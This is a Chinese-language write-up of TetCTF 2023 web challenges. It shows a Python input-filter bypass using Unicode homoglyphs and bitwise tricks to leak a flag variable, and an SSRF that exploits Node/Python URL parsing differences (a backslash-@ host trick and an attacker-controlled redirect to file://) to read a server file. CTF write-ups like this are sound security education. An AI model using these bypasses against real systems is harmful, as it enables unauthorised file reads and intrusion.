










TetCTF 2023
前言
每年过年越南似乎都会举办一场ctf比赛，这也是ctftime上2023年的第一场ctf比赛。
源码：https://drive.google.com/file/d/13QLDDnauyMogu8RX-xLqB8jP-degF28d/view
WEB
NewYearBot
题目描述
Description New Year New Code! My friend decide to learn code in new year, here his very first website: http://172.105.120.180:9999/
File He said it is very secure because he is very strict on what user can input, can you check? https://drive.google.com/file/d/1tU18ePUAHHYpxJ9QhdVKBpuBm_eXy–r/view?usp=sharing
Note Don’t generate excessive load. Scanning/Dirbust is not needed.
题目分析
这是一个传入type和number然后回显对应的问候语的应用。type用于选择特定的问候语列表，number选择列表中的元素。一番审计感觉应该是下面这个地方的代码有问题：

对于传入的type仅做了一个变量名是否合法的校验，这里或许可能执行任意的函数，而非是题目期望的问候语列表。
flag是在FL4G这个变量里面，所以很自然的想法就是显示该变量的内容。如果传入的type为FL4G，那么肯定希望number是对应的下标索引。但是number有一个botValidator函数过滤，该函数限制了number各个字符的ascii值不可以在57-123之内，并且数字部分总长度不可以超过最长的问候语列表的长度。（最大长度是 6）那么我们传入的 number 必须小于等于 5 。所以如何截取剩余的flag字符呢？我看到的有两种手法：
slice切片结合同型字符
python的 slice
我们只要得到一个截取很多个元素的切片 myslice，然后通过 FL4G[myslice] 不就可以截取出 flag 来了么？只要截取元素够多，就可以拿到完整的 flag。
要调用 slice 函数，我们需要得到一个整数，在 python 下，id 函数用于获取对象的唯一标识符，而标识符是一个整数，所以我们可以通过 slice(id(对象)) 来得到一个元素切片。而这个对象我们有很多种选择，比如在题目源码中导入的几个模块 re、random等，不过长度尽量短，因为我们传入的 number 参数是有长度限制的。例如我们可以选择 number=slice(id(re))
但是还有一个很关键的问题，那就是题目不允许我们传入 ascii 码值在 57 和 123 之间的字符
我们可以通过传入 slice(id(re)) 的 unicode 同形字符来绕过这个限制，尽管说这些并不是 ascii 字符，但是 python 会自动 normalize 它们。同形字符 𝔰𝔩𝔦𝔠𝔢(𝔦𝔡(𝔯𝔢))
位运算
~ 是 python 中的 取反运算符。
-~5 会得到 6 ，关于其底层原理，可以看这篇文章：取反运算符~详解。而减号和波浪号是在允许的 ascii 码值范围内，所以我们可以通过这种手法拿到 flag 的第六个字符
type=FL4G&number=𝔰𝔩𝔦𝔠𝔢(𝔦𝔡(𝔯𝔢)) # POST
-~0-~4 -> 6
-~0-~5 -> 7
-~0-~0-~5 -> 8
-~0-~0-~0-~5 -> 9
(-~0-~0)*5 -> 10
~0-(-~0-~0)*~5 -> 11
(-~0-~0-~0)*4 -> 12
~0-(-~0-~0)*5 -> -11
(-~0-~0)*~4 -> -10
~(-~0-~0)*3 -> -9
(-~0-~0)*~3 -> -8
~0--~5 -> -7
~5 -> -6
~4 -> -5
~3 -> -4
~2 -> -3
~1 -> -2
~0 -> -1

Image Services Viewer
题目描述
Do you know secret which on my server!!!!
源码地址：https://drive.google.com/file/d/1K8XJXrdwEgJWGwu2V3cqLiZUo4nrdweM/view?usp=share_link
题目分析
给的Dockerfile在下载镜像时会有网络问题，建议更换apt和npm的源。apt的可以用清华，npm的可以换淘宝的。
以下是gpt给出的解决方案：
FROM node:14
RUN mkdir -p /usr/src/app
RUN sed -i 's/deb.debian.org/mirrors.tuna.tsinghua.edu.cn/g' /etc/apt/sources.list \
&& sed -i 's/security.debian.org/mirrors.tuna.tsinghua.edu.cn/g' /etc/apt/sources.list \
&& apt-get update -y \
&& apt-get install -y python python-pip
WORKDIR /usr/src/app
COPY ./container/images-services/src/ .
RUN npm config set registry https://registry.npm.taobao.org
RUN npm install
RUN pip install -i https://pypi.tuna.tsinghua.edu.cn/simple requests
COPY ./container/images-services/flag.txt /usr/src/app/fl4gg_tetCTF
EXPOSE 3000
CMD [ "node", "index.js" ]

三个目录以及docker的yaml还有两个启动脚本，官方说了有两个题是同一个附件，分别有两个flag。根据现在的题目名明显我们需要关注 images-services 这个目录。
首先观察一下该目录的 dockerfile，因为这能让我了解题目的基本业务逻辑。
COPY ./container/images-services/flag.txt /usr/src/app/fl4gg_tetCTF
EXPOSE 3000
CMD [ "node", "index.js" ]
flag在容器当前工作目录下的fl4gg_tetCTF，入口文件是 index.js。那现在就去看一下这个文件。看完这个文件后，感觉有问题的点在于：

此处题目已经暗示我们url和flag有关系了，又是host、又是url的，很容易让人想起SSRF，我的首要想法是通过SSRF读取服务端本地的flag。但是还是要看看downloadImage()函数做了什么。

以我们传入的url为参数执行命令
python bot.py url
现在跟进去看看bot.py，注释告诉我们这是一个处理本地请求的文件，可以接受 file:// 这样的url。看到这里很自然的想法就是利用 fie 协议读取 flag。然而，题目利用了好几个函数对请求进行了过滤的，所以必须观察利用file协议读flag会不会触发过滤函数。
isAdmin()要求password=Th!sIsS3xreT0但是长度又不能超过12，将password改成数组传入即可。
password[]=Th!sIsS3xreT0
valite()要求请求体的值的类型必须是String或Number，同时值不可以包含一些黑名单字符，看了一眼没有file://以及和flag路径相关的，非常nice！IsValidProtocol()结合源码要求url只能是http或者https。很难搞，似乎无法用fie协议了？isValidHost()限制host必须是i.ibb.cobot.py请求的时候要求后缀名是图片、响应的Content-Type是image，第一个我想到的是在路径后拼接
#.jpg绕过，第二个除非我有可控的服务器并且host还是i.ibb.co才能做到。
最关键的点在于如何绕过host的限制？目标当然是将 host 弄成一个我们可控的服务器。这里可以利用 node 和 python 对 host 的解析差异来绕过。
在bot.py中会调用requests的head和get方法，在调用过程中会调用到urllib3的Url类的parse_url方法，该方法对于url的解析和题目urlParse类对url的解析存在差异。



如上图，authority不匹配反斜杠，path除了问号和井号都匹配。所以对于 http://evil.com1232\@i.ibb.co/1.png
，requests解析的authority是http://evil.com1232，path是\@i.ibb.co/1.png。

对于urlParse来说，其解析出来的结果是

关于url的具体组成，可以参看维基百科的图：

URI = scheme ":" ["//" authority] path ["?" query] ["#" fragment]
authority = [userinfo "@"] host [":" port]
利用这种解析差异，将host弄成我们可控的服务器，然后在服务器上定义302跳转读取本地的flag，这就完成了一次优雅的ssrf。
http://47.115.222.18\@i.ibb.cotest/test.jpg
admin Portal
题目描述
题目分析
参考
TetCTF2023&Liferay(CVE-2019-16891)(Pre-Auth RCE) | Y4tacker’s Blog